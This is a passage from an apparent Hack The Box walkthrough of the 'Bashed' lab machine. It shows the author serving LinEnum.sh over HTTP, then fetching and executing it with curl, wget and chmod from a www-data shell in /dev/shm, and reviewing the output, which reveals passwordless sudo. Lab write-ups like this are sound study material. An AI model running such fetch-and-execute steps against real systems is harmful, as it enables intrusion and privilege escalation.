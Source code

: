 ```bash
$ htb_server
Server IP Address copied to clipboard
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

And then I run the following command from the shell on the remote machine:

```bash
www-data@bashed:/var/www/html/dev$ curl 10.10.14.31:8000/LinEnum.sh -o LinEnum.sh && chmod +x LinEnum.sh && ./LinEnum.sh 
The program 'curl' is currently not installed. To run 'curl' please ask your administrator to install the package 'curl'
```

Okay. Seems like `curl` isn't on the machine. Let's try `wget`.

```bash
www-data@bashed:/var/www/html/dev$ which wget
/usr/bin/wget
www-data@bashed:/var/www/html/dev$ wget 10.10.14.31:8000/LinEnum.sh
--2020-04-02 05:30:03--  http://10.10.14.31:8000/LinEnum.sh
Connecting to 10.10.14.31:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
LinEnum.sh: Permission denied

Cannot write to 'LinEnum.sh' (Success).
```

So, we successfully connected to my webserver to download the script, downloaded it and failed to write it to disk. To fix this, let's just write it to memory (`/dev/shm`)

```bash
www-data@bashed:/var/www/html/dev$ cd /dev/shm
www-data@bashed:/dev/shm$ wget 10.10.14.31:8000/LinEnum.sh
www-data@bashed:/dev/shm$ chmod +x LinEnum.sh && ./LinEnum.sh
```

> The full output of the script is available in `enumeration/LinEnum.output.txt`. Use `$ cat enumeration/LinEnum.output.txt` to see the script formatted properly.

Right off the bat, I see that it's running an old kernel (`Linux bashed 4.4.0-62-generic`). There are a variety of kernel exploits that we could use to get an insta-root, but I bet there's something more interesting I could do.

If we scroll down a bit further, we see this:

```
[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

